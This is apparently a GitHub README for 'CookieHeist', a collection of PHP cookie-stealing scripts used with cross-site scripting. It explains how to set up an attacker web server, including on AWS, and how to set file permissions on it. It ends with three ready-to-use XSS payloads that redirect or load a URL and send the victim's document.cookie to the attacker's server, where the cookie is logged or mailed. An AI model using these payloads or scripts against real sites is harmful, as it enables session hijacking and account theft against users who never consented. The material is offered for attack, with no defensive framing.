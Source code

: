 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to log.txt. 

2. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the remote attacker machine, start the webserver (Apache2 in example):

sudo service apache2 start

2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine


git clone https://github.com/RxSec/CookieHeist


cd CookieHeist


sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/


sudo scp log.txt username@AttackMachine:/var/www/html/

**AWS Version**:

scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/

Example: http://[Attacker Webserver]/cookiesteal-simple.php

##### Setting Permissions:

Figure out which user is owning httpd process using the following command:

ps aux | grep httpd

Output should be similar to this:

ec2-user  1569  0.0  0.1  12840  1064 pts/0    S+   17:55   0:00 grep httpd

So now you know the user who is trying to write files, which is in this case ec2-user You can now go ahead and set the permission for directory where your php script is trying to write something:

sudo chown ec2-user:ec2-user /var/www/html/

sudo chmod 755 /var/www/html/

_XSS Payload Examples_:
* <script javascript:text>document.location="http://[Attacker Webserver]cookiesteal-simple.php?c=" + document.cookie + "&t=Alert"; </script>

* <script>document.location='http://[Attacker Webserver]/cookiesteal-v.php?cookie=' + document.cookie</script>

* <img src=x onerror=this.src='http://[Attacker Webserver]/cookiesteal-v.php?cookie='+document.cookie>
